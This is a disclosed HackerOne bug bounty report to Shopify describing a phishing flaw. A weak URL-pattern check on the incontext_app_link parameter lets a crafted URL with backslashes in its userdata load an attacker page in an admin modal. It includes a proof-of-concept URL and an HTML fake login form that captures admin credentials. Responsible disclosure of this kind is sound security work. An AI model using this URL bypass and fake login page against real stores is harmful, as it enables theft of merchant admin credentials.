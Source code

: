 # H1514 Simple phishing using auto-created modal with weak URL-pattern check in incontext_app_link

## Report Details
- **Report ID**: 422279
- **URL**: https://hackerone.com/reports/422279
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-10-11T00:37:43.811Z
- **Disclosed**: 2019-04-10T22:35:47.817Z

## Reporter
- **Username**: fransrosen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

This is unrelated to the Twine-template issue reported earlier as this would still be an issue if the template escape would be fixed. 

### Background

The `incontext_app_link` is checked server-side if it's a correct `shopifycloud.com`-URL. The problem however is that userdata inside the URL is allowed. By utilizing two backslashes `\\` in the userdata, we're able to make all browsers except Safari load the URL before the `@` instead of the domain after. This means that since the `API.modal.open` triggers directly when the victim accesses the page, we can fake a login page on this URL to make the admin think they need to reauthorize in Shopify. However, the link is actually loaded from a different domain and the credentials will be stolen whenever the admins uses the form.

The same thing applies here as to the Twine-report, the attacker needs to use a product-ID that exists for the merchant. But since these IDs are publicly available in the webstore, this should be no issue.

### PoC

PoC-link (use your own store, and also replace `1557454323768` with a working Product ID inside your store):

```
/admin/products/1557454323768?incontext_app_link=https%3A%2F%2F████████%5C%5C%40google-shopping.shopifycloud.com
```

The following HTML is loaded from `██████`:


```html
<center>
<form onsubmit="alert('your login is: ' + document.getElementById('u').value + ':' + document.getElementById('p').value); return false">
<input id="u" placeholder="Email address" style=" position: absolute; top: 140px; left: 80px; font-size: 20px; height: 50px; border: 0; width: 400px;">
<input id="p" placeholder="Password" type="password" style="position: absolute; font-size: 20px; height: 50px; border: 0; width: 400px; left: 80px; top: 210px;">
<button type="submit" style="position: absolute; left: 80px; height: 50px; top: 280px; width: 480px; background: transparent; border: 0;"></button></form>
<img src="login.png" width="600" /></center>
<script>parent.postMessage('{"message":"Shopify.API.Modal.setHeight","data":{"height":500,"width":"940"}}','*')</script>
```

{F358706}

Here's a video showing the scenario of the attacker sending a link to an admin:

{F358705}

Regards,
Frans and Mathias

## Impact

#

## Attachments
No attachments
